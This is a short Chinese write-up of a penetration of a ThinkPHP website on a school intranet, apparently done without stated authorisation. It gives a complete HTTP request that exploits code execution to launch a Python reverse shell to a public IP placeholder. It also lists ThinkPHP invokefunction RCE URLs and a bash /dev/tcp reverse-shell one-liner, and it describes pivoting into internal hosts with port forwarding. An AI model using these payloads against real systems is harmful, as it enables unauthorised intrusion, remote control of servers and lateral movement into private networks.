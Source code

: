 # 记一次简单的渗透
> 目标：学校内网中某存在tp代码执行漏洞的网站

## 大致过程

获取网站的相关信息 `whatweb -v http://123.123.123.123`
发现是tp网站

测试老版本的命令执行，这里用了一个python弹shell的方法
```
POST /index.php/module/action/paraml/${@eval(system($_POST[id]))} HTTP/1.1
Host: 123.123.123.123
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://123.123.123.123/index.php/Public/login
Content-Length: 251
Cookie: PHPSESSID=5luqtvskv0hs76hvl7irk7qq25; uid=0h4BjFysIcDBKBepA2zJAg==
Connection: close

id=python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('公网IP',公网端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" >>/tmp/ccKnfdf.c
```
```
附上新的命令执行payload
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

附上bash直接反弹shell，一开始没重定向到文件所以失败了，然后我换了python的脚本才发现是重定向的问题
bash -i >& /dev/tcp/公网IP/公网端口 0>&1
```

然后可以利用这个做跳板，进而破解内网主机的一些端口

编译portmap（）
将内网的某主机端口抓发到公网（其实我这个环境没必要，但是练练技术）

